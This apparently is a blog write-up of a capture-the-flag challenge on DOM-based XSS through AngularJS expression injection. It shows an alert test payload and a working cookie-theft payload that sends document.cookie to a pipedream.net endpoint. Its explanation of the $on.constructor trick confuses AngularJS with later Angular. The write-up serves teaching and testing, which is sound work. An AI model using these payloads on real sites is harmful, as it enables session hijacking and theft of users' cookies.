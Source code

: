 ```yaml
---
title: Angular XSS DOM BASED
description: Explanation of XSS Angular DOM based vulnerability.
date: "2022-08-07T10:00:00+02:00"

---
```



# Introduction

Tonight I'm doing another challenge for XSS vulnerabilities, specially with AngularJS which is a really common framework for developing webapps.

As you may know ["Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities"](https://en.wikipedia.org/wiki/Cross-site_scripting)
This time I had some fun with this new challenge which consisted about finding a XSS DOM-based vulnerability with ["Angular Expressions"](https://www.w3schools.com/angular/angular_expressions.asp)




## First things first!

The way Angular binds data into the HTML is via expressions, and AngularJS expressions are written in double braces `{{}}`

- As a first step (and we assume our vulnerable webapp is using Angular as the underlying technology) a `ng-app` **must appear** inside the source code. Otherwise our AngularJS expressions won't work
- Then, a vulnerable user input should be localized (in order to inject our payloads)
- Before the last step, we must ensure that the vulnerable input field is within the `ng-app` directive
- At last, let's put our XSS Payload inside braces, we can test it with one such as: `{{$on.constructor("alert(1)")()}}`*


* We are using "$on.constructor" in this case because we want to use dependency injection upon the new DOM node creation, you can find more info [here](https://angular.io/guide/dependency-injection#providing-dependency-1), in this case `NgOnInit` wouldn't work for us because when this latter one is called by Angular, the DOM has been already created. ["Here's an article with more information about it"](https://medium.com/angular-in-depth/the-essential-difference-between-constructor-and-ngoninit-in-angular-c9930c209a42)

### Hands on! :fire:

We have this challenge, with an input that seems to be "unsafe":
![xss dom image 1](xssdom1.PNG)

Let's see if the response source-code contains something interesting:
![xss dom image 2](xssdom2.PNG)

Ahá! We can see the `ng-app` directive and inside it our string (my name in this case)

Let's try to put a simple payload, like the one mentioned avobe ``('{{$on.constructor("alert(\`hello!\`)")()}}')``...
![xss dom image 3](xssdom3.PNG)

And we have succesfully injected our payload.
It's clearly seen that this payload is seen in the query string part of the URI, so we can use this to steal the admin's cookie.
For this purpose we will have to do 2 things:

1- Adapt the payload to send the response to our desired endpoint (pipedream.net in my case, for simplicity's sake)
2- Let the admin execute the payload (as this is a vulnerable site, it's done via the contact page :) )

In this example, I'm adapting the payload for stealing the cookie's admin like this:

```
$<protocol>://<domain>/contact?url=[[[[PAYLOAD]]]]

The payload can be then teared down like:
{{$on.constructor("href=`desired-endpoint.com?querystring=`.concat(admin.cookie)")()}}

And the resulting query being:
http://vulnerable_domain.com/?url={{$on.constructor("document.location=`https://eoj1ovww5kfcgvi.m.pipedream.net?cookie=`.concat(document.cookie)")()}}"
```
Aaand... there it is! 
![xss dom image 4](xssdom4.PNG)

We have captured our :sparkles: flag! :sparkles:

## How this vulnerability could have been avoided?

There's a really simple answer: You should **avoid** allowing data from any untrusted source to be dynamically written to the HTML document!! 


Thank you for being here :heart: 
See you around!